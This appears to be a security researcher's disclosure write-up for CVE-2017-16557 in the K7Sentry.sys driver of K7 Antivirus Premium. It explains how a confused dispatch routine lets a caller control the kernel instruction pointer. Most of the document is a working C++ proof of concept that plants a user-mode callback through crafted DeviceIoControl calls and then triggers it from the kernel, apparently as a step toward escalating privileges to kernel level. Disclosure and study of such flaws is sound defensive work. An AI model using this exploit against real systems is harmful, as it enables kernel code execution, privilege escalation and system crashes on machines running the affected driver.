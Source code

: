 # CVE-2017-16557
# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*
  * SHA256: 7037F80EC73F4D6E2DFBD2AA675FF154F81AAB2FB7372680AAA1D2D41DB93771
  
# Related
The majority of this issue is still valid here so the write up isn't going to be duplicated.
[CVE-2017-16551](../CVE-2017-16551/readme.md)

# Details
## Vulnerability
The *K7Sentry.sys* exposes a significant amount of functionality through its DispatchHandler interface. Some of this calls through to common code which performs different actions depending on where it is called from. This appears to be to reduce code duplication. However, it is possible to confuse the routines and get consistent control of the instruction pointer.

This issue looks at the ControlCode 0x95002867 which is a wrapper around a call to *ZwReadFile*.

The main difference between this writeup and CVE-2017-16551 is the offset in unk9 is different:
```C++
int __thiscall sub_10770(unk3 *this, PVOID Buffer, ULONG Length, int a4, int a5)
{
    // ...
    else if ( unk3_field_1 == -1 )
    {
        pUnk9 = pUnk3->pUnk9;
        if ( pUnk9 )
        {
            if ( pUnk9->field_4 )
            {
                result = ((int (__cdecl *)(HANDLE, PVOID, ULONG, int, unsigned int))pUnk9->field_4)(
                        pUnk3->hFile,
                        Buffer,
                        Length,
                        a4,
                        v7);
                // ...
            }
        }
    }

    // ...

}
```

The offset for this control code is 0x04 which is reflected in the UNK9 structure in the PoC code.


# PoC Code
This proof of concept code will cause a bugcheck identical to CVE-2017-16551.

```C++

#pragma pack(push)
#pragma pack(1)
// Aka Unknown2
typedef struct _UNK9
{
	DWORD offset_0;
	DWORD function_ReadFile;
	DWORD function_WriteFile;
	DWORD function_SetInformationFile;
	DWORD function_Query;
} UNK9, *PUNK9;

// Aka Unknown1
typedef struct _UNK3
{
	BYTE magic;
	BYTE ff;
	DWORD offset_2;
	PUNK9 pUnk9;
} UNK3, *PUNK3;

#pragma pack(pop)


VOID __cdecl KernelCallback(HANDLE hFile, DWORD dwUnknown)
{
	__asm
	{
		mov eax, 0xaaaaaaaa
		mov ebx, 0xbbbbbbbb
		mov ecx, 0xcccccccc
		mov edx, 0xdddddddd
		mov esi, 0xd00dd00d
		mov edi, 0xcafecafe
		mov DWORD_PTR[0xCAFED00D], 0xcafecafe
	}
}

VOID SetupMemory_0x9500286F(HANDLE hFile)
{
	BYTE outBuffer[0x8000] = { 0 };
	BYTE data[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;

	UNK9 stUnk9 = { 0 };
	// This must not be 0;
	stUnk9.offset_0 = 1;

	printf("Function: 0x%p\r\n", KernelCallback);

	stUnk9.function_ReadFile = (DWORD)KernelCallback;
	stUnk9.function_WriteFile = (DWORD)KernelCallback;
	stUnk9.function_SetInformationFile = (DWORD)KernelCallback;
	stUnk9.function_Query = (DWORD)KernelCallback;

	memcpy(data, &stUnk9, sizeof(UNK9));

	printf("Setting up global buffer\r\n");

	// This will fill the buffer at 0x4efe8 to be the data we pass into it
	if (!DeviceIoControl(hFile, 0x95002580, data, sizeof(data), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}

	//
	// Now we need to set up the state before it, this is pretty easy as we are just passing in a 
	// single DWORD. This is 0x4efe0
	//
	printf("Setting up K and FF\r\n");
	DWORD dwUnk3Magics = 0xFF4B0000;
	if (!DeviceIoControl(hFile, 0x950025D4, &dwUnk3Magics, sizeof(DWORD), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}
}

VOID TriggerFunctionCall(HANDLE hFile)
{
	// ************* CHANGE ME *************
	// This can be done dynamically if required.
	DWORD dwDriverBase = 0x86ecd000;
	// *************************************
	DWORD dwBufferPtrWeControl = 0x4f760+2 - 0x10000 + dwDriverBase;

	BYTE data[0x8000] = { 0 };
	BYTE outBuffer[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;
	(*(DWORD*)data) = dwBufferPtrWeControl;

	// ReadFile
	if (!DeviceIoControl(hFile, 0x95002867, data, 16, outBuffer, 4, &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global\r\n");
	}
}


VOID MedToKernel()
{
	HANDLE 	hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);

	BYTE arrInput[0x1000] = { 0 };
	BYTE arrOutput[0x1000] = { 0 };
	DWORD dwBytesReturned = 0;

	SetupMemory_0x9500286F(hDevice);
	TriggerFunctionCall(hDevice);
}

```